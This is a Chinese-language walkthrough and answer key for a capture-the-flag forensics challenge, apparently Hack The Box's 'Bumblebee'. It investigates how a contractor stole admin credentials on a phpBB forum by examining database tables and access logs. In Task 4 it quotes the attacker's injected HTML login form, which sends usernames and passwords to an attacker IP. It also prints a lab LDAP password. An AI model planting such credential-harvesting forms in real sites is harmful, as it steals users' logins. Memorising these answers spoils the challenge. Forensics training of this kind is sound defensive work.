 # Bumblebee

:::info Sherlock Scenario

An external contractor has accessed the internal forum here at Forela via the Guest WiFi and they appear to have stolen credentials for the administrative user! We have attached some logs from the forum and a full database dump in sqlite3 format to help you in your investigation.

一名外部承包商通过客用 WiFi 访问了 Forela 的内部论坛，似乎窃取了管理员用户的凭证！我们附上了论坛的一些日志和完整的 sqlite3 格式数据库转储文件，以帮助您进行调查。

:::

## 题目数据

[bumblebee.zip](./bumblebee.zip)

## Task 1

> 外部承包商的用户名是什么？

在数据库的 `phpbb_users` 中就可以找到

```plaintext title="Answer"
apoole1
```

## Task 2

> 承包商用来创建其账户的 IP 地址是什么？

同样也在上题的数据库中

```plaintext title="Answer"
10.10.0.78
```

## Task 3

> 承包商制作的恶意帖子的 post_id 是什么？

在数据库的 `phpbb_posts` 中就可以找到

```plaintext title="Answer"
9
```

## Task 4

> 凭证窃取器发送数据的完整 URI 是什么？

在上一题的数据库中，查看承包商发布的贴子，即可发现

```html
<form action="http://10.10.0.78/update.php" method="post" id="login" data-focus="username" target="hiddenframe">
    <div class="panel">
        <div class="inner">
            <div class="content">
                <h2 class="login-title">Login</h2>
                <fieldset class="fields1">
                    <dl>
                        <dt><label for="username">Username:</label></dt>
                        <dd><input type="text" tabindex="1" name="username" id="username" size="25" value=""
                                class="inputbox autowidth"></dd>
                    </dl>
                    <dl>
                        <dt><label for="password">Password:</label></dt>
                        <dd><input type="password" tabindex="2" id="password" name="password" size="25"
                                class="inputbox autowidth" autocomplete="off"></dd>
                    </dl>
                    <dl>
                        <dd><label for="autologin"><input type="checkbox" name="autologin" id="autologin"
                                    tabindex="4">Remember me</label></dd>
                        <dd><label for="viewonline"><input type="checkbox" name="viewonline" id="viewonline"
                                    tabindex="5">Hide my online status this
                                session</label></dd>
                    </dl>
                    <dl>
                        <dt>&nbsp;</dt>
                        <dd> <input type="submit" name="login" tabindex="6" value="Login" class="button1"
                                onclick="sethidden()"></dd>
                    </dl>
                </fieldset class="fields1">
            </div>
        </div>
    </div>
</form>
```

```plaintext title="Answer"
http://10.10.0.78/update.php
```

## Task 5

> 承包商何时以管理员身份登录论坛？（协调世界时）

在数据库的 `phpbb_log` 表中，有一个记录的 `operation` 是 `LOG_ADMIN_AUTH_SUCCESS`，其对应的时间戳是 `1682506392`

将时间戳转换为标准时间格式

```plaintext
1682506392 --> Wed 26 April 2023 10:53:12 UTC
```

```plaintext title="Answer"
26/04/2023 10:53:12
```

## Task 6

> 论坛中有用于 LDAP 连接的明文凭据，密码是什么？

在数据库的 `phpbb_config` 表中，有一份数据 `ldap_password`

```plaintext title="Answer"
Passw0rd1
```

## Task 7

> 管理员用户的用户代理是什么？

在数据库的 `phpbb_log` 表中，寻找 `operation` 为 `LOG_ADMIN_AUTH_SUCCESS` 的记录，可以找到这两条 ip

```plaintext
10.255.254.2
10.10.0.78
```

前面已经确定承包商的 ip 为 `10.10.0.78`，那么 `10.255.254.2` 就是管理员用户的 ip，在 `access.log` 中可以找到 `user-agent`

```plaintext title="Answer"
Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
```

## Task 8

> 承包商何时将自己添加到管理员组？（协调世界时）

在数据库的 `phpbb_log` 表中，有一条`operation`为`LOG_USERS_ADDED`的记录，数据为

```plaintext
a:2:{i:0;s:14:"Administrators";i:1;s:6:"apoole";}
```

可以断定这一条就是承包商将自己的账户添加进管理员组的记录

```plaintext
1682506431 --> Wed 26 April 2023 10:53:51 UTC
```

```plaintext title="Answer"
26/04/2023 10:53:51
```

## Task 9

> 承包商何时下载了数据库备份？（协调世界时）

在`access.log`文件中，用`backup`作为关键词进行搜索，可以得到这一条记录

```plaintext
10.10.0.78 - - [26/Apr/2023:12:01:38 +0100] "GET /store/backup_1682506471_dcsr71p7fyijoyq8.sql.gz HTTP/1.1" 200 34707 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0"
```

```plaintext title="Answer"
26/04/2023 11:01:38
```

## Task 10

> 按照 access.log 中的记录，数据库备份的大小是多少字节？

上一题中就有

```plaintext title="Answer"
34707
```
